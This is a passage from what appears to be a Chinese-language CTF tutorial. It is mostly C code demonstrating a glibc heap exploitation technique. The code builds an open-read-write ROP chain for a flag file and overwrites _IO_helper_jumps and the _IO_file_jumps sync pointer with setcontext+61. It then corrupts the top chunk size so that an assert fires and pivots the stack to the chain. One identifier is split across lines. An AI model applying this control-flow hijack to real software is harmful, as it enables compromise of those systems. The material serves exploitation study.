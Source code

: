 ```bash

void setROP()
{
    uint32_t i = 0;
    ROP[i++] = pop_rax_ret;
    ROP[i++] = 2;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = (size_t)FLAG;
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = 0;
    ROP[i++] = syscall_ret;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 3;
    ROP[i++] = pop_rdx_r12;
    ROP[i++] = 0x100;
    ROP[i++] = 0;
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = (size_t)(FLAG + 0x10);
    ROP[i++] = (size_t)read;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 1;
    ROP[i++] = (size_t)write;
}
int main() {
    setvbuf(stdin,0LL,2,0LL);
    setvbuf(stdout,0LL,2,0LL);
    setvbuf(stderr,0LL,2,0LL);
    sandbox();
    libc_base  = ((size_t)setvbuf) - 0x81630;
    printf("LIBC:\t%#lx\n",libc_base);

    size_t magic_gadget = libc_base + 0x53030 + 61; // setcontext + 61
    size_t IO_helper = libc_base + 0x1E48C0; // _IO_hel
    per_jumps;
    size_t SYNC = libc_base + 0x1E5520; // sync pointer in _IO_file_jumps
    setROP();
    *((size_t*)IO_helper + 0xA0/8) = ROP; // 设置rsp
    *((size_t*)IO_helper + 0xA8/8) = ret; // 设置rcx 即 程序setcontext运行完后会首先调用的指令地址
    *((size_t*)SYNC) = magic_gadget; // 设置fflush(stderr)中调用的指令地址
    // 触发assert断言,通过large bin chunk的size中flag位修改,或者top chunk的inuse写0等方法可以触发assert
    size_t *top_size = (size_t*)((char*)malloc(0x10) + 0x18);
    *top_size = (*top_size)&0xFFE; // top_chunk size改小并将inuse写0,当top chunk不足的时候,会进入sysmalloc中,其中有个判断top_chunk的size中inuse位是否存在
    malloc(0x1000); // 触发assert
    _exit(-1);
}
```

效果如图所示：

[![](assets/1698893163-59164fe26e9188961f3287a4b2a967f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231028185931-126273d6-7581-1.png)
